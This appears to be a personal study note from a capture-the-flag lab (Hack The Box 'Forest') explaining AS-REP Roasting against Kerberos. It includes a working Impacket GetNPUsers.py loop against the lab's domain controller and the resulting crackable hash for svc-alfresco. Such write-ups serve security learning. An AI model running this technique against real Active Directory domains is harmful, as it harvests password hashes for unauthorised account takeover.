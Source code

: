 +++
title = "AS-REP Roasting"
author = ["svejk"]
draft = false
+++

## AS-REP Roasting {#as-rep-roasting}

Two key attacks on [Kerberos]({{<relref "kerberos.md#" >}}) security in Active Directory include [kerberoasting]({{<relref "kerberoasting.md#" >}}) and AS-REP Roasting. Kerberoasting typically requires credentials on the domain to authenticate with. There is an option for an account to have the property “Do not require Kerberos preauthentication” or UF\_DONT\_REQUIRE\_PREAUTH set to true. AS-REP Roasting is an attack against Kerberos for these accounts.

Use the [Impacket]({{<relref "impacket.md#" >}}) tool `GetNPUsers.py` to try to get a hash for each user

```shell
λ ~/ctf/htb/forest/ for user in $(cat usernames.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:25311259ddd6d0e65a4ae2cd898c547b$2328b382956004167ef612abbfd0b3350d362f386d70deadf093d73dd33fadea8bf648d3d7c1cab3565b508a9dafb06cb399ac26e04521ffa22edc882213994257e53976a81b78aaf49dfe02da14f6f76fc7def2a7d4e7e8ff696efa29a1ac4a8df2c0f7856df3c7aa7bbff60e93c1e1fbfc538745a0ffefa3f383d68ddfb4984d1194bc56cc9d168b69a512901815da53cba71a2d0a13c6369fd1b74b9ce3367119502354b2cae4ae3096e5ba4a041fa8a0d1d7f4a92c0f47d2c6ee7bcc73b7f2c3b10955799c807bf43d3035488fb385c68568e770d87d771343e16266ea8f

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

The hash is quickly cracked with `hashcat`.